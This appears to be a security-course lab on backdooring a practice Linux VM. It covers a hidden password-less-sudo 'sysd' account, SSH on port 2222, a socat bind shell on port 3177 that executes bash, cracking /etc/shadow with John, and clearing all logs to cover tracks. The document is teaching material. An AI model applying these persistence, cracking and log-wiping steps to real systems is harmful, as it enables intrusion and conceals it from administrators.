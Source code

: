 # BackdoorLinux
Instructions
Get started by logging into the VM as root.

Shadow People
In this step, you'll create a "secret" user named sysd. Anyone examining /etc/passwd will assume this to be a service account, but in fact, you'll be using it to reconnect to the machine for further exploitation.
Make sure to give your sysd user:

A password
A System UID (i.e., UID < 1000)
A GID equal to this UID
Full, password-less sudo access

In addition, minimize exposure by ensuring that your secret user does not have a home folder.
Test that your sysd user can execute commands with sudo access without a password before moving on.

Smooth Sailing
In this step, you'll allow SSH access via port 2222. SSH usually runs on port 22, but opening port 2222 will allow you to log in as your secret user without connecting to the standard (and well-guarded) port 22.
This will require some research. Start by examining /etc/ssh/sshd_config and using Google or the man pages to learn more about the available configuration options.
When you think you've configured things properly, test your solution by:

Noting the IP address of the system
Exiting the root account, and logging off of the machine
Using your local command line to SSH into the system as your sysd user

Use Git bash for this on Windows, and Terminal on OS X.



Once you are connected over SSH, use sudo to switch back to the root user.
Note that this was an important step. You were able to log out of your root account, and then reestablish a session with escalated privileges.
The ensuing steps will make this backdoor even subtler and, therefore, more effective.

Two doors are better than one.
What happens if someone discovers the sysd account and removes it? For this reason, hackers often install more than one backdoor.
Next, you will use a program called socat to create a second backdoor. Socat allows you to easily connect to a machine and can provide a bash shell without using ssh.
Use this article Socat: The General Bidirectional Pipe Handler to learn more about it and what it can do.
After reading the article, install socat and use the following command to open a Listener: socat TCP4-Listen:3177,fork EXEC:/bin/bash

A socat listener is a process that runs continuously and listens for connections. Once the process is running, you can send it commands and interact directly with the server from another machine.
Study the above command and use google to learn what each part is doing. In your solutions submission.md file, describe what each part of this command does.

After you start the listener, exit your ssh session and test that you can run socat commands from your local machine's command line.

Run socat STDIO TCP4:<Your-VM-IP-address>:3177 on your local machine.
The cursor should return to the next line and appear as if nothing has happened.

$ socat STDIO TCP4:<Your-VM-IP-address>:3177
|
From here you should be able to type standard bash commands.


Try a few commands like ls and cd


Once you confirm that the connection is working, exit the socat connection.


Note that as long as the socat process is running, you will be able to connect to the system. This serves as a great second backdoor incase your hidden user is compromised.
If the machine is restarted, the process will stop. To take this attack to the next level, we could create a script that continually runs a process like this in the background. That way, this connection is always available, even if the machine restarts. Furthermore, we could include scripts that hide the process from utilities like ps.
Attacks like this will be further explored in the pentesting weeks of class, so for now it's enough to understand how this works and confirm the connection is operational.

Crack all the things
Next, to strengthen our foothold on this system, we will attempt to crack as many passwords as we can.
Having access to all the accounts will also allow us to access the system if our other backdoors are closed.


SSH back to the system using your sysd account.


Escalate your privileges to the root user.


Use John to crack the entire /etc/shadow file.


Note that the reality of cracking passwords is that the process just takes time. Now might be a good opportunity to grab some coffee or take a break and let the computer do the work for you.

Cover your tracks
At this point, we own this system. We have the passwords for all the users, including the root user. We have a secret user in case the other users change their passwords. We have a socat process running that allows connections.
From here, we want to hide as much evidence that we were ever on this system as we can .
We know that Linux keeps logs of everything that happens, leaving a trail for a system administrator to figure out everything you have done. Our last step? Clear the logs.

Use socat with a for loop to clear all system logs.
